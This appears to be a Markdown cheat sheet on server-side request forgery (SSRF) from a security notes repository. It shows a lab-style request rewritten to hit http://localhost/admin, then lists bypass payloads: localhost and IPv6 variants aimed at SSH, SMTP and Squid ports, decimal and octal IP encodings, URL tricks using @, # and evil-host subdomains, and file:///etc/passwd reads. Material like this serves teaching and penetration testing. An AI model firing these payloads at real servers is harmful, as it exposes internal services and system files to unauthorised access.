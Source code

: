  # Server-side request forgery (SSRF)

>  Server-side request forgery (also known as SSRF) is a web security vulnerability that allows an attacker to induce the server-side application to make HTTP requests to an arbitrary domain of the attacker's choosing. 

## Summary
- [Server-side request forgery (SSRF)](#server-side-request-forgery-ssrf)
  - [Summary](#summary)
  - [Exploits](#exploits)
    - [Basic SSRF](#basic-ssrf)
    - [Bypass using HTTPS](#bypass-using-https)
    - [Bypass localhost with [::]](#bypass-localhost-with)
    - [Bypass with 127.0.0.1 alternative](#bypass-with-127001-alternative)
    - [Bypass with @](#bypass-with)
    - [Bypass with '#'](#bypass-with-1)
    - [Bypass by modifying the DNS naming hierarchy](#bypass-by-modifying-the-dns-naming-hierarchy)
    - [File](#file)
  - [References](#references)

## Exploits

:fire: **example :**

Body Request : 

```bash
stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=2&storeId=1
```
Modified Body Request :

```bash
stockApi=http://localhost/admin
```
Response:

```bash
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8

'ADMIN PANEL'
```
### Basic SSRF

```bash
http://127.0.0.1:80
http://127.0.0.1:443
http://127.0.0.1:22
http://0.0.0.0:80
http://0.0.0.0:443
http://0.0.0.0:22
http://localhost:80
http://localhost:443
http://localhost:22
```
### Bypass using HTTPS

```bash
https://127.0.0.1/
https://localhost/
```
### Bypass localhost with [::]

```bash
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:22/ SSH
http://[::]:3128/ Squid
```
```bash
http://0000::1:80/
http://0000::1:25/ SMTP
http://0000::1:22/ SSH
http://0000::1:3128/ Squid
```

### Bypass with 127.0.0.1 alternative

```bash
http://2130706433
http://017700000001
http://127.1
http://127.0.1
```
### Bypass with @

example : 

```bash 
https://expected-host@evil-host
```
### Bypass with '#'

example : 

```bash 
https://evil-host#expected-host
```
### Bypass by modifying the DNS naming hierarchy

example : 

```bash 
https://expected-host.evil-host
```


### File

```bash
file://path/to/file
file:///etc/passwd
file://\/\/etc/passwd
```


## References
* [Portswigger](https://portswigger.net/web-security/ssrf)
* [swisskyrepo PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)